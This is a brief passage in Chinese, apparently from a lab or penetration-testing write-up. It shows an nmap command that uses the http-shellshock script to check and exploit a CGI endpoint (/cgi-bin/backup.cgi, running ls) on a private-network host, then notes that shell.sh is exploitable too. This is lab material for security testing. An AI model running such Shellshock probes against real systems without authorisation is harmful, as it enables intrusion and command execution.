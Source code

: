 使用`nmap`中的脚本进行检测，nmap中的一些漏洞检测都是可以的

```shell
nmap -sV -O 192.168.1.54 -p80 --script=http-shellshock --script-args uri=/cgi-bin/backup.cgi,cmd=ls
```



![](./pic-thor/17.jpg)

再测试`shell.sh`是否可利用，也是可用的
